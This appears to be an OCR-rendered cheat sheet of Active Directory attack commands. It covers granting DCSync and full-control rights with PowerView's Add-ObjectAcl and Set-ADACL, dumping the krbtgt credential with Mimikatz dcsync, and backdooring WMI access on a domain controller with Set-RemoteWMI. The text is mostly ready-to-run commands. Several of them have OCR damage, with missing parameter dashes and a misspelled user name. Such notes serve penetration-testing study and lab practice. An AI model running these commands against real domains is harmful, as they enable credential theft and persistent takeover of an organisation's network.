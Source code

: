 # ADD OBJECT ACL

Add-ObjectAcl -TargetDistinguishedName "dc=domain,dc=local" -PrincipalSamAccountName targetuser -Rights DCSync -Verbose

# DCSYNC

Get-ObjectAcl -DistinguishedName "dc=domain,dc=local" -ResolveGUIDs |

?{($_.IdentityReference -match "targetuser") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}

### Rights Abuse

> Add FullControl rights
> 

Add-ObjectAcl -TargetDistinguishedName 'DC=lab,DC=domain,DC=local' PrincipalSamAccountName john -Rights All -Verbose

- Using ActiveDirectory Module and Set-ADACL

Set-ADACL -DistinguishedName 'DC=lab,DC=domain,DC=local' -Principal john -Verbose

- Add rights for DCSync

Add-ObjectAcl -TargetDistinguishedName 'DC=lab,DC=domain,DC=local' PrincipalSamAccountName bob -Rights DCSync -Verbose

- Using ActiveDirectory Module and Set-ADACL

Set-ADACL -DistinguishedName 'DC=lab,DC=domain,DC=local' -Principal bob -GUIDRight DCSync -Verbose

- Execute DCSync

Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'

### SECURITY DESCRIPTORS

- ACLs can be modified to allow non-admin users access to securable objects
- WMI
    - On local machine for jane

Set-RemoteWMI -UserName jane -Verbose

- On remote machine for jane without explicit credentials

Set-RemoteWMI -UserName jame -ComputerName DC01 -namespace 'root\cimv2' -Verbose

- On remote machine with explicit credentials

Set-RemoteWMI -UserName jane -ComputerName DC01 -Credential Administrator namespace 'root\cimv2' -Verbose

- On remote machine remove permissions

Set-RemoteWMI -UserName jane -ComputerName DC01 -namespace 'root\cimv2' -Remove Verbose
